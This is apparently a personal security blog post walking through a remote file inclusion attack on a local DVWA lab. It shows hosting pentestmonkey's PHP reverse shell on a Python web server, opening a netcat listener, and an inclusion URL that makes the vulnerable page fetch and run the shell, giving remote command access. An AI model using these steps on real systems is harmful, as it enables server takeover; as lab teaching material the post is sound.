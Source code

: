 ```yaml
---
title: Remote file inclusion
date: 14,sep 2022
categories : [Penetration Tester, Web Hacking ,file inclusion]
tags: [web hacking , file inclusion ]
---
```

# Remote file inclusion (RFI)
![global pic](/assets/rfi.jpg)
## What is RFI
Remote file inclusion (RFI) is an attack targeting vulnerabilities in web applications that dynamically reference external scripts , so the hacker can host his web server in the client of the victim that's to give him the power to do a lot of things :
- Code execution on the web server
- Executing client-side code like JavaScript that can lead to other attacks like Cross-site scripting (XSS).
- Denial of Service (DoS)
- Data Theft / Manipulation


![global pic](/assets/rfi2.jpg)
---

## how hacker discover this vulnerabilities

[See this post](https://chalalsaad.github.io/posts/file-inclusion-first-post/)

---

## Remote file inclusion examples
i will attack my [DVWA](https://www.kali.org/tools/dvwa/) lab 




![global pic](/assets/rfi3.png)



First we need [reverse PHP shell](https://pentestmonkey.net/tools/web-shells/php-reverse-shell) This  script will open an outbound TCP connection from the web server to a host and port of your choice.  Bound to this TCP connection will be a shell.if you are php developer you can build your own , is available in [GitHub](https://github.com/pentestmonkey/php-reverse-shell):

Open the php-reverse-shell.php file by nano or any editor and try to verify double thing of course the ip and the port

![ reverse shell](/assets/rfi4.png)

---
Now we need to create a web server ,me i use [python web  server](https://pythonbasics.org/webserver/) ,you can use other  one doesn't matter.

To start a webserver run the command below:
```shell
python3 -m http.server 8888
```
![global pic](/assets/rfi7.png)

![ reverse shell](/assets/rfi5.png)


Now i will use [netcat](https://fr.wikipedia.org/wiki/Netcat) to listening in the target by his port , so netcat functions as a back-end tool that allows for port scanning and port listening.

To start listening on 4444:
```shell
  sudo nc -lvnp 4444
```
- -l :  listen mode, for inbound connects
- -v           verbose [use twice to be more verbose]
- -n           numeric-only IP addresses, no DNS
- -p port      local port number (port numbers can be individual or ranges: lo-hi [inclusive])

![ reverse shell](/assets/rfi6.png)

Ultimate step is run this shell in the victim client 
```http
 http://127.0.0.1/DVWA/vulnerabilities/fi/?page=http://0.0.0.0:8888/php-reverse-shell.php
```
![ reverse shell](/assets/rfi8.png)

---
![ reverse shell](/assets/rfi9.png)

### our shell is get in the web server of the victim with successfully


![ reverse shell](/assets/rfi10.png)

### now we have the full control on the server, we can run any command we want and access to any hidden file


![ reverse shell](/assets/rfi11.png)






